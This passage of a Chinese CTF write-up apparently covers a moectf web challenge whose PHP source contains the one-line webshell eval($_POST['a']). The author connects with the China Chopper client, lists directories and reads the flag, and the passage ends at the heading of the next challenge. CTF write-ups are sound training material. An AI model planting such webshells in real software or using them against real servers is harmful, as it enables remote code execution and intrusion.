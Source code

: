 打开网页：

```php
<?php
error_reporting(0);
highlight_file("index.php");
eval($_POST['a']);
?> 
```

发现里面已经内嵌了一句话木马`eval($_POST['a']);`

上久闻大名的[中国菜刀 (China chopper)](http://www.maicaidao.com/)

![image-20201030212338263](http://framist-bucket-openread.oss-cn-shanghai.aliyuncs.com/img/2023/08/15/20230815210624.png)

```bash
[/var/www/html/]$ ls -l ../../../
total 84
drwxr-xr-x   3 root root 4096 Feb 15  2016 app
drwxr-xr-x   1 root root 4096 Feb 15  2016 bin
drwxr-xr-x   2 root root 4096 Apr 10  2014 boot
drwxr-xr-x   5 root root  340 Aug  4 03:21 dev
drwxr-xr-x   1 root root 4096 Aug  4 03:21 etc
-rw-r--r--   1 root root   40 Jun 17 16:22 flag
drwxr-xr-x   2 root root 4096 Apr 10  2014 home
drwxr-xr-x   1 root root 4096 Feb 15  2016 lib
drwxr-xr-x   2 root root 4096 Jan 19  2016 lib64
drwxr-xr-x   2 root root 4096 Jan 19  2016 media
drwxr-xr-x   2 root root 4096 Apr 10  2014 mnt
drwxr-xr-x   2 root root 4096 Jan 19  2016 opt
dr-xr-xr-x 186 root root    0 Aug  4 03:21 proc
drwx------   1 root root 4096 Aug  4 03:23 root
drwxr-xr-x   1 root root 4096 Aug  4 03:21 run
drwxr-xr-x   1 root root 4096 Jan 19  2016 sbin
drwxr-xr-x   2 root root 4096 Jan 19  2016 srv
dr-xr-xr-x  13 root root    0 Aug  4 03:21 sys
drwxr-xr-x   1 root root 4096 Feb 15  2016 usr
drwxr-xr-x   1 root root 4096 Feb 15  2016 var

[/var/www/html/]$ cat ../../../flag
moectf{0hhhh!!!y0u_know_h0w_to_u3e_eva1}
```

于是得到 flag：`moectf{0hhhh!!!y0u_know_h0w_to_u3e_eva1}`

<br/>

## EzMath

> 150points
>
> http://39.98.86.109:10001/
>
> 简简单单数学题

